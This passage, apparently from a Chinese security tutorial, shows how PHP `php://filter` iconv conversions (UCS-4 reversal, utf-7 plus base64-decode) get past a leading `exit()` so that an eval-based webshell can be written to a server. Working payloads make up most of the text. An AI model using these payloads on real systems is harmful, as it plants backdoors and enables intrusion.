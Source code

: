 通过UCS-4方式，对目标字符串进行4位一反转（这里的4LE和4BE可以看作是小端和大端的列子），也就是说构造的恶意代码需要是UCS-4中4的倍数，不然不能进行正常反转（多余不满足的字符串会被截断），那我们就可以利用这种过滤器进行编码转换绕过了
- 构造payload
```
a=php://filter/convert.iconv.UCS-4LE.UCS-4BE|hp?&lt;e@ p(lavOP_$Q[TS]mtf&gt;?;)/resource=Qftm.php

合并的payload：
&lt;?php exit();php://filter/convert.iconv.UCS-4LE.UCS-4BE|hp?&lt;e@ p(lavOP_$Q[TS]mtf&gt;?;)/resource=Qftm.php

核心部分：
&lt;?php exit();php://filter/convert.iconv.UCS-4LE.UCS-4BE|hp?&lt;e@ p(lavOP_$Q[TS]mtf&gt;?;)

&gt;&gt;&gt; len("&lt;?php exit();php://filter/convert.iconv.UCS-4LE.UCS-4BE|")
56 -&gt; 4*14
&gt;&gt;&gt;

```
- 载荷效果
[![](https://p0.ssl.qhimg.com/t0113dbaa8540d5c6e6.png)](https://p0.ssl.qhimg.com/t0113dbaa8540d5c6e6.png)

从请求和服务器查看结果可以看到构造的payload执行传入恶意代码后门webshell成功。

<a class="reference-link" name="utf8-utf7"></a>**utf8-utf7**
- 测试代码
```
&lt;?php

$a='php://filter/convert.iconv.utf-8.utf-7/resource=Qftm.txt';
file_put_contents($a,'=');

/**
Qftm.txt 写入的内容为: +AD0-
**/

```

从结果可以看到，convert.iconv 这个过滤器把 `=` 转化成了 `+AD0-`，要知道 `+AD0-` 是可以被 `convert.base64-decode`过滤器解码的。
- 构造payload
```
a=php://filter/write=PD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8+|convert.iconv.utf-8.utf-7|convert.base64-decode/resource=Qftm.php
//这里需要注意的是要符合base64解码按照4字节进行的

utf-8 -&gt; utf-7
+ADw?php exit()+ADs-php://filter/write+AD0-PD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8+-+AHw-convert.iconv.utf-8.utf-7/resource+AD0-Qftm.php

base64解码特点剔除不符合字符（只要恶意代码前面部分正常就可以，长度为4的倍数）
+ADwphpexit+ADsphp//filter/write+AD0

&gt;&gt;&gt; len("+ADwphpexit+ADsphp//filter/write+AD0")
36 -&gt; 4*9
&gt;&gt;&gt;

正常base64解码部分
+ADwphpexit+ADsphp//filter/write+AD0PD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8+
```
- 载荷效果
[![](https://p3.ssl.qhimg.com/t014d4a9f16f757791f.png)](https://p3.ssl.qhimg.com/t014d4a9f16f757791f.png)
